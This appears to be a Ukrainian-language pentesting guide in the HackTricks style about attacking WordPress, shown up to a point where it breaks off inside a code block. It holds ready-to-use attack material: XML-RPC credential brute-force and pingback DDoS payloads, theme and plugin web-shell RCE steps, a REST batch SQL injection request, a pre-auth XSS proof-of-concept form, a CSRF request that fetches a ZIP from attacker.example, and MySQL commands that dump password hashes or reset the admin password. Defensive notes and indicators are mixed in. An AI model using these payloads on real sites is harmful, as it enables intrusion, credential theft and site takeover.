

# WordPress

{{#include ../../banners/hacktricks-training.md}}

## Основна інформація

- **Завантажені** файли зберігаються за адресою: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
- **Файли тем зберігаються в `/wp-content/themes/`.** Якщо адміністратор змінить PHP-шаблон, щоб отримати виконання коду, відповідний шлях до теми можна запросити безпосередньо. Наприклад, шаблон `404.php` теми Twenty Twelve зазвичай доступний за адресою [**`/wp-content/themes/twentytwelve/404.php`**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php).

  - Якщо встановлено й активовано тему з назвою `default`, варто також перевірити шлях **`/wp-content/themes/default/404.php`**.

- **`wp-config.php`** містить облікові дані WordPress для підключення до бази даних. Налаштований користувач бази даних може мати привілеї, але це не обов’язково обліковий запис `root` бази даних.<sup>[[21]](#references)</sup>
- Типові шляхи входу для перевірки: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

### **Основні файли WordPress**

- `index.php`
- `license.txt` містить корисну інформацію, зокрема встановлену версію WordPress.
- `wp-activate.php` використовується для активації через електронну пошту під час налаштування нового сайту WordPress.
- Каталоги входу (можуть бути перейменовані, щоб приховати їх):
  - `/wp-admin/login.php`
  - `/wp-admin/wp-login.php`
  - `/login.php`
  - `/wp-login.php`
- `xmlrpc.php` надає доступ до застарілого інтерфейсу XML-RPC через HTTP. У сучасних інтеграціях зазвичай використовується WordPress REST API, але XML-RPC досі присутній і може бути ввімкнений.<sup>[[22]](#references)</sup>
- Каталог `wp-content` — це основне місце зберігання плагінів і тем.
- `wp-content/uploads/` — типовий каталог для завантажених медіафайлів, хоча налаштування та плагіни можуть змінити його структуру.
- `wp-includes/` містить бібліотеки та ресурси ядра WordPress; його не слід вважати каталогом користувацького вмісту.
- Починаючи з WordPress 5.5, ядро надає індекс XML sitemap за адресою `wp-sitemap.xml` для публічних дописів та іншого загальнодоступного вмісту, доступного для запитів.<sup>[[23]](#references)</sup>

**Post exploitation**

- Файл `wp-config.php` містить дані, потрібні WordPress для підключення до бази даних, як-от назву бази даних, хост, ім’я користувача й пароль, а також ключі автентифікації, солі та префікс таблиць бази даних. У ньому також можна ввімкнути параметри налагодження, тому розкриття цього файлу особливо небезпечне.<sup>[[21]](#references)</sup>

### Ролі користувачів

- **Administrator**
- **Editor**: може публікувати дописи власного авторства й інших користувачів та керувати ними.
- **Author**: може публікувати власні дописи й керувати ними.
- **Contributor**: може створювати власні дописи й керувати ними, але не може їх публікувати.
- **Subscriber**: може читати вміст і керувати власним профілем.

Це ролі за замовчуванням; плагіни й адміністратори можуть змінювати можливості, тому під час перевірки авторизації слід перевіряти саме можливості, а не припускати, що назва ролі завжди має фіксоване значення.<sup>[[24]](#references)</sup>

## **Passive Enumeration**

### **Дізнатися версію WordPress**

Перевірте, чи можна знайти файли `/license.txt` або `/readme.html`

У **вихідному коді** сторінки (наприклад, на [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)):

- grep

```bash
curl https://victim.com/ | grep 'content="WordPress'
```

- `meta name`

.png>)

- Файли CSS

.png>)

- Файли JavaScript

.png>)

### Отримання списку плагінів

```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Отримати теми

```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Визначення версій загалом

```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '\?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```

## Активне перерахування

### Плагіни та теми

Пасивна перевірка не обов’язково виявить усі встановлені плагіни чи теми. Щоб розширити охоплення, активно перебирайте можливі назви зі відповідних списків слів за допомогою інструментів, які дотримуються обмежень оцінювання щодо частоти запитів.

### Користувачі

- **ID Brute:** За допомогою Brute Forcing ID користувачів сайту WordPress можна отримати дійсні імена користувачів:

```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

Якщо відповідь — **200** або **30X**, ID **дійсний**. Якщо відповідь — **400**, ID **недійсний**.

- **wp-json:** Також можна спробувати отримати інформацію про користувачів, надіславши запит:

```bash
curl http://blog.example.com/wp-json/wp/v2/users
```

Ще одна кінцева точка `/wp-json/`, яка може розкрити деяку інформацію про користувачів:

```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```

Зверніть увагу, що ця кінцева точка показує лише користувачів, які створили допис. **Буде надано інформацію лише про користувачів, у яких увімкнено цю функцію**.

Також зверніть увагу, що **/wp-json/wp/v2/pages** може спричинити витік IP-адрес.

- **Login username enumeration**: Під час входу через **`/wp-login.php`** **повідомлення** **відрізняється** залежно від того, чи існує вказане **ім’я користувача**.

### XML-RPC

Якщо `xmlrpc.php` увімкнено, його методи можуть створювати можливості для підбору паролів і зловживання pingback. Наприклад, [wpxploit](https://github.com/relarizky/wpxploit) автоматизує кілька перевірок XML-RPC. Застосовуйте суворі обмеження частоти запитів і тестуйте лише з дозволу.

Щоб перевірити, чи він активний, надішліть запит до **`/xmlrpc.php`** і виконайте цей виклик методу:

**Перевірка**

```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**Brute force облікових даних**

**`wp.getUserBlogs`**, **`wp.getCategories`** або **`metaWeblog.getUsersBlogs`** — це деякі з методів, які можна використовувати для brute force облікових даних. Якщо знайдете будь-який із них, можна надіслати щось на кшталт:

```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

Повідомлення _«Incorrect username or password»_ у відповіді з кодом 200 має з’являтися, якщо облікові дані недійсні.

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

За наявності дійсних облікових даних і достатніх прав `wp.uploadFile` може завантажувати медіафайли. Успішна відповідь містить шлях до завантаженого файла ([приклад запиту](https://gist.github.com/georgestephanis/5681982)).

```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

Також є **швидший спосіб** brute-force облікових даних за допомогою **`system.multicall`**, оскільки можна перевірити кілька облікових даних в одному запиті:

<figure><figcaption></figcaption></figure>

**Bypass 2FA**

Цей метод призначений для програм, а не для людей, і є застарілим, тому він не підтримує 2FA. Отже, якщо у вас є дійсні creds, але основний вхід захищений 2FA, **можливо, ви зможете використати xmlrpc.php, щоб увійти з цими creds в обхід 2FA**. Зверніть увагу, що ви не зможете виконати всі дії, доступні через консоль, але все одно можете отримати RCE, як пояснює Ippsec у [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS або сканування портів**

Якщо доступний метод **`pingback.ping`**, він може змусити сервер WordPress отримати вибраний зловмисником URL HTTP(S). Ядро використовує перевірку URL, призначену для зменшення SSRF, тому доступні схеми, адресати, перенаправлення та сигнали відповіді відрізняються залежно від версії та конфігурації. Історично цю функцію використовували для відбитого трафіку та обмеженого зондування внутрішньої мережі.<sup>[[25]](#references)</sup>

```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```



Не вважайте один `faultCode` остаточним доказом того, що порт відкритий. Порівняйте контрольовані відкриті й закриті адресати та враховуйте перевірку URL, помилки застосунку, тайм-аути й поведінку проміжних систем.

Ознайомтеся з використанням **`system.multicall`** у попередньому розділі, щоб дізнатися, як зловживати цим методом для спричинення DDoS.

**DDoS**

```html
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>
```

.png>)

### Тестування навантаження `wp-cron.php`

Цей файл зазвичай розташований у корені WordPress за адресою **`/wp-cron.php`**. WordPress перевіряє, чи настав час запускати заплановані події, під час обробки запитів сторінок і може створювати неблокувальний запит до цієї кінцевої точки. Виконувана робота залежить від запланованих хуків; повторні запити самі по собі не створюють значного навантаження на базу даних, але дорогі або неналежно заблоковані завдання можуть спричинити зайве навантаження. Тестуйте це лише в контрольованому середовищі, оскільки тестування навантаження може вплинути на доступність.<sup>[[21]](#references)</sup>

Для сайтів із високим навантаженням або чутливих до затримок адміністратори можуть встановити `DISABLE_WP_CRON` і запускати належні до виконання події за допомогою системного планувальника з контрольованим інтервалом.<sup>[[21]](#references)</sup>

### /wp-json/oembed/1.0/proxy — SSRF

У версіях/конфігураціях, де маршрут проксі oEmbed доступний тестованому користувачеві, спробуйте `https://wordpress-site.example/wp-json/oembed/1.0/proxy?url=https://<collaborator-host>/`. Сучасне ядро пересилає запит через `wp_safe_remote_get()`, яка перевіряє URL і перенаправлення, щоб зменшити ризик SSRF; на доступність також впливають автентифікація, nonce, списки дозволених адрес і мережеві засоби контролю.<sup>[[25]](#references)</sup>

Ось відповідь, коли це не працює:

.png>)

## SSRF


[QuickPress](https://github.com/t0gu/quickpress) перевіряє наявність методу `pingback.ping` і шляху `/wp-json/oembed/1.0/proxy`, а потім тестує відповідну поведінку запитів на боці сервера.<sup>[[26]](#references)</sup>

## Автоматизовані інструменти

```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt # Enumerate and test authorized accounts; API quotas vary
# To test the admin account in an authorized assessment, add: -U admin
```

## Отримання доступу шляхом перезапису біта

Це цікава особливість, специфічна для CTF, а не загальна атака на WordPress. У [One-Bit-Man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man) зловмисник міг змінити один біт у будь-якому файлі WordPress. Зміна відповідного байта у `/var/www/html/wp-includes/user.php` змінила умову перевірки пароля. Точне зміщення (`5389` у тому завданні) залежить від збірки.

```php
    if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
            return new WP_Error(
```

## **Panel RCE**

**Зміна PHP-файлу використовуваної теми (потрібні облікові дані адміністратора)**

Вигляд → Редактор теми → Шаблон 404 (праворуч)

Замініть вміст на PHP shell:

.png>)

Зробіть запит до зміненого шаблону через маршрут, який його відображає, або відкрийте його безпосередньо, якщо вебсервер дозволяє виконання PHP у каталогах тем. У цьому прикладі шлях такий: [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php).

### MSF

Можна скористатися:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

щоб отримати сеанс.

## Plugin RCE

### PHP plugin

Можливо, вдасться завантажити файли .php як plugin.\
Створіть свій PHP-бекдор, наприклад:

.png>)

Потім додайте новий plugin:

.png>)

Завантажте plugin і натисніть Install Now:

.png>)

Натисніть **Proceed**:

.png>)

Імовірно, на перший погляд це нічого не дасть, але якщо перейти до Media, ви побачите завантажений shell:

.png>)

Відкрийте його, і ви побачите URL для запуску reverse shell:

.png>)

### Завантаження й активація шкідливого plugin

Цей метод передбачає встановлення шкідливого plugin, про який відомо, що він вразливий, і його можна експлуатувати для отримання web shell. Процес виконується через панель керування WordPress так:

1. **Отримання plugin**: plugin можна отримати з такого джерела, як Exploit DB, наприклад [**тут**](https://www.exploit-db.com/exploits/36374).
2. **Встановлення plugin**:
   - Перейдіть до панелі керування WordPress, а потім відкрийте `Dashboard > Plugins > Upload Plugin`.
   - Завантажте ZIP-файл отриманого plugin.
3. **Активація plugin**: після успішного встановлення plugin його потрібно активувати через панель керування.
4. **Експлуатація**:
   - Установлений і активований plugin "reflex-gallery" можна експлуатувати, оскільки відомо, що він вразливий.
   - Фреймворк Metasploit має експлойт для цієї вразливості. Завантаживши відповідний модуль і виконавши певні команди, можна встановити сеанс meterpreter, який надасть несанкціонований доступ до сайту.
   - Зазначимо, що це лише один із багатьох способів експлуатації сайту WordPress.

Матеріал містить ілюстрації кроків зі встановлення й активації plugin через панель керування WordPress. Водночас важливо пам’ятати, що експлуатація вразливостей у такий спосіб є незаконною й неетичною без належного дозволу. Використовуйте цю інформацію відповідально та лише в законному контексті, наприклад під час pentesting за наявності явного дозволу.

**Докладніші інструкції:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## Плутанина з маршрутом REST batch і SQL injection у `WP_Query`

У WordPress 6.9.0–6.9.4 і 7.0.0–7.0.1 анонімний endpoint `POST /wp-json/batch/v1` (також доступний через `/?rest_route=/batch/v1`) можна використати для SQL injection, а за продемонстрованої конфігурації за замовчуванням — для створення облікового запису адміністратора й виконання коду через plugin.<sup>[[35]](#references)[[37]](#references)</sup> SQL sink у `WP_Query` також стосується версій 6.8.0–6.8.5, однак використаний тут batch-маршрут, доступний до автентифікації, вимагає WordPress 6.9 або новішої версії; не слід вважати, що весь цей ланцюжок експлуатації можливий у версіях 6.8.<sup>[[36]](#references)[[37]](#references)[[38]](#references)</sup>

Диспетчер batch зберігає знайдені обробники й результати перевірки в паралельних масивах. Некоректний шлях субзапиту додає помилку перевірки, але не додає обробник, через що індекси зсуваються. Тоді наступний субзапит перевіряється за схемою одного маршруту, але виконується callback іншого маршруту.<sup>[[35]](#references)</sup> Вкладений виклик batch також обходить обмеження на субзапити `GET`: зовнішня невідповідність передає тіло, перевірене як запит posts, обробнику batch; внутрішня невідповідність перевіряє `author_exclude` за маршрутом елемента posts, але виконує маршрут колекції posts.<sup>[[35]](#references)</sup> Там `author_exclude` стає `author__not_in` у `WP_Query`. Елементи масиву перетворюються за допомогою `absint()`, але скалярне значення потрапляє до SQL-фрагмента `NOT IN (...)` без змін. Ключова вразливість — невідповідність маршруту й схеми, яка дає змогу передати скалярне значення до цього sink; [UNION-based SQL injection](../../pentesting-web/sql-injection/#exploiting-union-based) — це подальший метод отримання даних.<sup>[[35]](#references)</sup>

Наведений нижче вкладений запит демонструє SQL sink за допомогою булевої умови на лабораторному екземплярі. Шляхи `http://:` навмисно некоректні; payload міститься в тілі JSON POST-запиту, а не в URL.<sup>[[35]](#references)</sup>

<details>
<summary>Вкладений batch-запит для підтвердження SQL injection</summary>

```http
POST /wp-json/batch/v1 HTTP/1.1
Host: target.example
Content-Type: application/json

{
  "requests": [
    {"method":"POST","path":"http://:"},
    {"method":"POST","path":"/wp/v2/posts","body":{"requests":[
      {"method":"GET","path":"http://:"},
      {"method":"DELETE","path":"/wp/v2/posts/1","body":{"author_exclude":"0) OR 1=1 -- "}},
      {"method":"GET","path":"/wp/v2/posts"}
    ]}},
    {"method":"POST","path":"/batch/v1"}
  ]
}
```
</details>

За допомогою запиту повного рядка `UNION` може повертати підроблені рядки `wp_posts`, а не лише видобувати значення. У продемонстрованій ескалації такі рядки додаються до кешу записів, локального для запиту, локальні embeds рендеряться для створення справжніх рядків `oembed_cache`, після чого кешовані рядки перетворюються на `customize_changeset`. Виправлення циклу батьківських записів записує контрольований зловмисником вміст changeset; його `user_id` тимчасово набуває значення ідентифікатора адміністратора. Підроблений перехід запису викликає `parse_request` із правами цього користувача, що дозволяє створити адміністратора через REST API.<sup>[[35]](#references)</sup> Потім новий обліковий запис може завантажити PHP-плагін, як у випадку з [plugin RCE](#plugin-rce). Постійне зовнішнє кешування об’єктів може змінити шлях запиту повного рядка й унеможливити саме цей маршрут `UNION`/RCE; однак воно не усуває базові вразливості.<sup>[[35]](#references)[[36]](#references)</sup>

Публічний PoC розділяє безпечну для системи перевірку плутанини маршрутів `check` і активне підтвердження SQLi за допомогою `--confirm-sqli` та операції `read --preset users`. Підказка щодо версії не доводить доступність вразливості, а невдале підтвердження також може бути спричинене WAF.<sup>[[39]](#references)</sup> Якщо SQLi підтверджено, розкриття хешу пароля можливе й без подальшого створення адміністратора. Див. [захоплення облікового запису](../../pentesting-web/account-takeover.md), щоб дізнатися про пов’язані наслідки для автентифікації.<sup>[[36]](#references)[[39]](#references)</sup>

```bash
./wp2shell.py check https://target.example
./wp2shell.py check https://target.example --confirm-sqli
./wp2shell.py read https://target.example --preset users
```

## Від XSS до RCE

- [**WPXStrike**](https://github.com/nowak0x01/WPXStrike) — це скрипт, призначений для ескалації Cross-Site Scripting (XSS) до Remote Code Execution (RCE) або інших критичних наслідків у WordPress. Описані в ньому методи націлені на WordPress 4.x, 5.x і 6.x, хоча їхня застосовність залежить від точної версії, конфігурації та поточної поведінки браузера:<sup>[[17]](#references)</sup>
  - _**Ескалація привілеїв:**_ Створює користувача в WordPress.
  - _**(RCE) Завантаження власного plugin (бекдору):**_ Завантажує ваш власний plugin (бекдор) у WordPress.
  - _**(RCE) Редагування вбудованого plugin:**_ Редагує вбудований plugin у WordPress.
  - _**(RCE) Редагування вбудованої теми:**_ Редагує вбудовану тему у WordPress.
  - _**(Custom) Власні експлойти:**_ Власні експлойти для сторонніх plugins/themes WordPress.

### Розбіжність парсерів core → DOM clobbering → RCE (XSS2Shell)

У ядрі WordPress до випуску виправлень безпеки в серпні 2026 року (виправлено у 7.0.3) була XSS-уразливість на екрані входу, доступна до автентифікації. Її можна було поєднати з виконанням PHP, коли адміністратор односайтової інсталяції, який увійшов у систему, відвідував сторінку під контролем атакувальника. Цікавою тут є комбінація окремих примітивів з обмеженими можливостями, а не сам CVE.<sup>[[19]](#references)[[20]](#references)</sup>

Першопричиною була **розбіжність парсерів**. Некоректне ім’я користувача передавалося через `sanitize_user()`/`wp_strip_all_tags()`; PHP `strip_tags()` сприймав `< area ...>` (пробіл після `<`) як текст, але подальший прохід `wp_kses_post()` інтерпретував його як дозволений елемент `<area>`. У результаті значення, яке мало бути звичайним текстом, перетворювалося на DOM під контролем атакувальника на `wp-login.php`.<sup>[[19]](#references)</sup>

Ланцюжок на боці браузера демонструє корисні цілі для аудиту та поєднує [DOM clobbering](../../pentesting-web/xss-cross-site-scripting/dom-clobbering.md) із [SOME](../../pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution.md):<sup>[[19]](#references)</sup>

1. Вставити елементи, чиї ID/класи відповідають селекторам, які використовує глобально підключений `user-profile.js`. Автоматичне натискання кнопки генератора паролів запускає обробник колірної схеми; обидва відсутні поля мають значення `undefined`, тому умова перевірки рівності виконується.
2. Підмінити інакше невизначену глобальну змінну `ajaxurl` за допомогою `<area id=ajaxurl href=...>`. Коли jQuery перетворює елемент на рядок, його `href` стає адресою AJAX-запиту.
3. Спрямувати цей запит до REST-індексу того самого origin, використавши `_method=GET` і `_jsonp=<callback>`. Відповідь JavaScript обробляється jQuery; `_envelope=1` може залишити статус зовнішньої відповіді рівним 200, навіть коли внутрішня REST-відповідь містить помилку.
4. У продемонстрованому ланцюжку RCE дочірнє вікно виконує обмежений callback, наприклад `window.opener.approve.click`, для форми підтвердження Application Password у вікні-відкривачі того самого origin. Підтверджені облікові дані надсилаються на `success_url` атакувальника.
5. Використати Application Password адміністратора для автентифікованих REST-запитів, опублікувати JavaScript за допомогою `unfiltered_html`, перейти на нього від імені адміністратора, а потім використати контекст cookie адміністратора, щоб отримати nonce для завантаження plugin і завантажити ZIP-архів із безпосередньо доступним PHP-файлом. Цей останній етап усе ще залежить від наявності у жертви відповідних можливостей адміністратора односайтової інсталяції.

Нижче наведено мінімальний варіант для авторизованого тестування примітиву XSS, доступного до автентифікації. Пробіл одразу після кожного `<` має значення.<sup>[[19]](#references)</sup>

```html
<form id="poc" method="post" action="https://target.example/wp-login.php">
  <input type="hidden" name="log" value='< area id=ajaxurl href="/?rest_route=/&amp;_method=GET&amp;_jsonp=alert&amp;_envelope=1">< div id=color-picker class=reset-pass-submit>< button class="wp-generate-pw color-option">X'>
  <input type="hidden" name="pwd" value="x">
</form>
<script>document.getElementById('poc').submit()</script>
```

Корисні індикатори для пошуку, отримані з цього ланцюжка: підозрілі значення `log`, що містять `<`, а перед `area`, `div` або `button` — пробіл; REST-запити, що поєднують `_jsonp`, `_method` і `_envelope`; неочікувані відвідування `authorize-application.php`; нові Application Passwords; створення сторінки через REST із подальшим завантаженням ZIP-файлу плагіна; а також прямі запити до щойно створеного PHP-файлу плагіна.<sup>[[19]](#references)</sup>

У WordPress 7.0.3 екранували значення невдалого входу та оголосили про backport виправлень у гілки, для яких іще надається підтримка безпеки. Тому самих лише номерів версій недостатньо: перевірте, чи встановлено відповідну збірку з виправленням безпеки або backport.<sup>[[19]](#references)[[20]](#references)</sup>

### Ін’єкція селектора теми → RCE через інсталятор неактивної теми (Click2Shell)

Корисний варіант для пошуку — **ін’єкція селектора між парсерами**: сервер або API канонізує значення URL, але згодом початкове значення підставляється в селектор CSS/jQuery. У вразливих сценаріях встановлення тем WordPress Core API Themes перетворював спеціально сформоване значення на коректний slug із каталогу, тоді як `wp-admin/js/theme.js` зберігав пунктуацію та виконував `$(selector).trigger('click')`. Таким чином, браузер ставав «заплутаним повіреним» і натискав справжній елемент керування **Install**, використовуючи сесію, права та nonce адміністратора; це примусова дія на боці клієнта, подібна до CSRF, а не довільне виконання JavaScript.<sup>[[32]](#references)</sup>

Для авторизованого ізольованого тестування почніть з офіційної теми, яку ще не встановлено. Кавичка закриває селектор атрибута `data-slug`, комбінатори нащадків переміщуються до картки теми у відповіді, а коментар CSS поглинає суфікс, який додає застосунок:<sup>[[32]](#references)</sup>

```http
GET /wp-admin/theme-install.php?theme=twentytwenty%22%5D%3E%2A%3E%2A%3E%2A%2F%2A HTTP/1.1
Host: wordpress.example
```

Концептуально браузер обчислює селектор на кшталт `div[data-slug="twentytwenty"]>*>*>*/*"]`, а потім виконує клік. Незмінений маршрут є корисним негативним контролем: він має відкрити попередній перегляд, не встановлюючи тему. Цей примітив обмежений темами з каталогу WordPress.org, доступними на цей момент; сам по собі він **не** завантажує архів теми, наданий зловмисником.<sup>[[32]](#references)</sup>

Важливе спостереження щодо другого етапу: **встановлена не означає неактивна**. Запит Customizer може завантажити файл `functions.php` неактивної теми, що дає змогу їй реєструвати хуки, як-от автентифіковані дії `wp_ajax_...`, навіть якщо активною залишається інша тема:<sup>[[32]](#references)</sup>

```http
POST /wp-admin/admin-ajax.php?wp_customize=on&customize_theme=<theme-slug> HTTP/1.1
Host: wordpress.example
Cookie: wordpress_logged_in_...=...
Content-Type: application/x-www-form-urlencoded

action=<ajax-action>&plugin_details[plugin_url]=https://attacker.example/test.zip&plugin_details[plugin_main_file]=proof.php
```

Перевірте код до активації на наявність AJAX-callback-функцій, які приймають URL віддаленого архіву, ідентифікатори призначення/plugin або ім’я файлу точки входу. Якщо такій callback-функції бракує і nonce дії, і перевірки прав доступу, міжсайтовий form може скористатися автентифікованим браузером жертви, щоб завантажити й розпакувати PHP у `wp-content/plugins/` і завантажити вибрану точку входу. У продемонстрованому ланцюжку використовувався Mobile Repair Zone 2.5.4, але повторно застосовний прийом полягає в пошуку в будь-якій темі, придатній до встановлення, чутливих hooks, доступних під час попереднього перегляду, імпорту, налаштування або ініціалізації сумісності.<sup>[[32]](#references)</sup>

Ланцюжок із кількох запитів можна виконати, не читаючи міжсайтові відповіді: відкрийте підготовлений URL інсталятора в іменованому popup-вікні, за потреби дозвольте жертві пройти звичайний вхід, дочекайтеся завершення встановлення, а потім надішліть прихований form, у якого `target` — те саме іменоване вікно, на URL Customizer/AJAX. Обов’язково перевірте блокування popup-вікон, затримку встановлення, політику cookie SameSite та фактичні права доступу жертви. Див. [CSRF](../../pentesting-web/csrf-cross-site-request-forgery.md) щодо передавання облікових даних браузера та [SOME](../../pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution.md) щодо пов’язаних прийомів виконання методів у привілейованому DOM.<sup>[[32]](#references)</sup>

Під час аналізу коду простежте значення URL/фрагментів до API селекторів, за якими викликаються `.click()`/`.trigger()`, і порівняйте, як кожен споживач нормалізує значення. Додайте цю перевірку на розбіжності парсерів до [методології пошуку вразливостей вебзастосунків](../../pentesting-web/web-vulnerabilities-methodology.md) та [аналізу DOM/client-side від джерела до точки використання](../../pentesting-web/xss-cross-site-scripting/dom-xss.md). Екрануйте недовірені фрагменти селекторів відповідно до синтаксису селекторів і обмежуйте збіг потрібним типом вузла; виправлення Core змінило точку використання на такий шаблон:<sup>[[33]](#references)</sup>

```javascript
$( 'div.theme[data-slug="' + $.escapeSelector( slug ) + '"]' ).trigger( 'click' );
```

Для кожного чутливого обробника `wp_ajax_` перевіряйте nonce, специфічний для дії, за допомогою `check_ajax_referer()` **і** окремо вимагайте потрібну capability за допомогою `current_user_can()`; nonce захищає від CSRF, але не є засобом авторизації. Не використовуйте URL пакетів і виконувані точки входу, вибрані клієнтом, і вважайте кожну встановлену тему/плагін розгорнутим PHP-кодом навіть до активації.<sup>[[24]](#references)[[27]](#references)[[32]](#references)</sup>

WordPress 7.1.1 містив виправлення Core, а для відповідних гілок було оголошено бекпорти безпеки. Оновлення Core усуває gadget із селектором примусового встановлення, але не виправляє окремо небезпечний callback інсталятора сторонньої теми, тож необхідно усунути обидві ланки ланцюжка.<sup>[[33]](#references)[[34]](#references)</sup>

## Post Exploitation

Отримання імен користувачів і паролів:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Змінити пароль адміністратора:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```

### Persistence через MU-plugin і приховані бекдори завантаження через REST

`WPMU_PLUGIN_DIR` за замовчуванням вказує на `wp-content/mu-plugins`. WordPress автоматично завантажує верхньорівневі PHP-файли з цього каталогу перед звичайними плагінами; їх немає у стандартному списку Plugins, вони не реєструються як звичайні активні плагіни, для них не надходять звичайні сповіщення про оновлення, і їх не можна вимкнути стандартним способом. Тому зловмисник із примітивом довільного запису може забезпечити малопомітну персистентність, розмістивши в цьому каталозі один PHP-завантажувач. Перевіряйте окремий розділ **Must-Use** і саму файлову систему, а не покладайтеся лише на звичайний перелік плагінів.<sup>[[30]](#references)</sup>

Практичний варіант — одноразовий звичайний плагін або інсталятор, який створює MU-plugin, а потім деактивується та видаляє себе. В одній із виявлених реалізацій реєструвався маловідомий REST-маршрут `wp-sec/v1/upload`, перевірялися жорстко задані облікові дані, приймалися вибрані зловмисником шляхи в межах кореневого каталогу WordPress, а розширення `.php` було явно дозволене. Отже, облікові дані захищали бекдор довільного запису файлів, а не усували його: кожен, хто їх відновив, міг надіслати POST-запит із web shell до каталогу вебкореня й отримати виконання PHP-коду.<sup>[[31]](#references)</sup>

Під час авторизованого оцінювання безпеки або реагування на інцидент перевірте і каталог автозавантаження, і простір імен REST, а потім проаналізуйте кожен callback завантаження на наявність перевірок прав доступу, канонічного обмеження шляху, списку дозволених розширень і розміщення поза виконуваними вебкаталогами. WordPress автоматично завантажує лише PHP-файли, розташовані безпосередньо в каталозі MU-plugin, але невеликий верхньорівневий завантажувач може виконувати `require` для більшого payload із підкаталогу.<sup>[[30]](#references)[[31]](#references)</sup>

```bash
# The location can be changed in wp-config.php
grep -nE 'WPMU_PLUGIN_(DIR|URL)' wp-config.php
find wp-content/mu-plugins -maxdepth 2 -type f -printf '%TY-%Tm-%Td %TT %p\n' 2>/dev/null
wp plugin list --status=must-use --fields=name,status,version

# REST discovery and source review
